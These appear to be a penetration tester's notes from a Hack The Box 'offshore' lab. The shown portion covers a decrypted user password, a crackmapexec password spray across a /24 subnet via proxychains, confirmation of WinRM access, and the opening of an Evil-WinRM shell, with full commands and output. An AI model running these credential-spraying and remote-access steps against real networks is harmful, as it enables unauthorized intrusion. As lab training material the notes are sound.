 ```bash
[-] 19852
[-] 32740
[-] 28591
[-] 29171
[-] 33508
[-] 27364
[-] 10993
[+] PASSWORD LENGTH: 13
[*] DECRYPTED PASSWORD: Dev0ftheyear!
```

#crackmapexec
#joe #passwordspray
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/172.16.1.201 - JOE-LPTP/screenshots/JOE PASSWORD SPRAY.png]]
```bash
# utilized this command to password spray across /24 domain
[root💀~/bugs_offshore/172.16.1.201] [10.10.14.39] [2023-08-08 16:31:13] 
 └─╼ # proxychains crackmapexec smb 172.16.1.0/24 -u 'joe' -p 'Dev0ftheyear!' > joe_hack_24_pwdspray.txt
```

found that the user joe exists on ip addresses:
172.16.1.200 (DC0)
172.16.1.201 (JOE-LPTP)
172.16.1.220 (SRV01)

cant really do anything with the credentials at this point, going to try to laterally move to DC0 with the credentials that joe has since I know he exists there

#rpclient
had to first make a rpc_joe text document with the fields below, and make sure to put -A in to utilize the file
![[RPC JOE.png]]
#crackmapexec #evil-winrm
### ALWAYS SCAN PORT 5985 TO SEE IF WINRM IS OPEN ON WINDOWS DEVICE
```bash
#winrm is allowed on JOE-LPTP
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:48:27] 
 └─╼ # proxychains crackmapexec winrm 172.16.1.201 -u joe -p Dev0ftheyear!
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5986 <--socket error or timeout!
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:445  ...  OK
SMB         172.16.1.201    5985   JOE-LPTP         [*] Windows 10.0 Build 19041 (name:JOE-LPTP) (domain:JOE-LPTP)
HTTP        172.16.1.201    5985   JOE-LPTP         [*] http://172.16.1.201:5985/wsman
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
WINRM       172.16.1.201    5985   JOE-LPTP         [+] JOE-LPTP\joe:Dev0ftheyear! (Pwn3d!)
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:53:45] 


[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:53:45] 
 └─╼ # proxychains evil-winrm -i 172.16.1.201 -u joe -p Dev0ftheyear!
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
```